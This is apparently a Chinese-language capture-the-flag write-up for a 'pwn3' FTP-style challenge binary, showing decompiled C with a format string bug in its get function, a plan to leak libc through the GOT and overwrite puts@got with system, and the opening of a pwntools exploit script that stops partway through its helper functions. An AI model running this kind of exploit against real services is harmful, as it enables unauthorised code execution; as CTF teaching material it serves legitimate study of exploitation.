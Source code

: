 首先分析程序，可以发现程序似乎主要实现了一个需密码登录的 ftp，具有 get，put，dir 三个基本功能。大概浏览一下每个功能的代码，发现在 get 功能中存在格式化字符串漏洞

```c
int get_file()
{
  char dest; // [sp+1Ch] [bp-FCh]@5
  char s1; // [sp+E4h] [bp-34h]@1
  char *i; // [sp+10Ch] [bp-Ch]@3

  printf("enter the file name you want to get:");
  __isoc99_scanf("%40s", &s1);
  if ( !strncmp(&s1, "flag", 4u) )
    puts("too young, too simple");
  for ( i = (char *)file_head; i; i = (char *)*((_DWORD *)i + 60) )
  {
    if ( !strcmp(i, &s1) )
    {
      strcpy(&dest, i + 0x28);//将内容复制到dest
      return printf(&dest);//输出dest内容
    }
  }
  return printf(&dest);
}
```

#### 漏洞利用思路 

既然有了格式化字符串漏洞，那么我们可以确定如下的利用思路

- 绕过密码
- 确定格式化字符串参数偏移
- 利用 put@got 获取 put 函数地址，进而获取对应的 libc.so 的版本，进而获取对应 system 函数地址。
- 修改 puts@got 的内容为 system 的地址。
- 当程序再次执行 puts 函数的时候，其实执行的是 system 函数。

#### 漏洞利用程序 

如下

```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Author  : MrSkYe
# @Email   : skye231@foxmail.com
# @File    : filename.py
from pwn import *
context.log_level = 'debug'

p = process("./pwn3")
elf = ELF("./pwn3")
libc = ELF("./libc.so")

def creat(name,content):
    p.recvuntil("ftp>")
    p.sendline("put")
    p.recvuntil("upload:")
    p.sendline(name)
    p.recvuntil("content:")
    p.sendline(content)
def show(name):
    p.recvuntil("ftp>")
    p.sendline("get")
    p.recvuntil("get:")
    p.sendline(name)
def showlist():
    p.recvuntil("ftp>")
```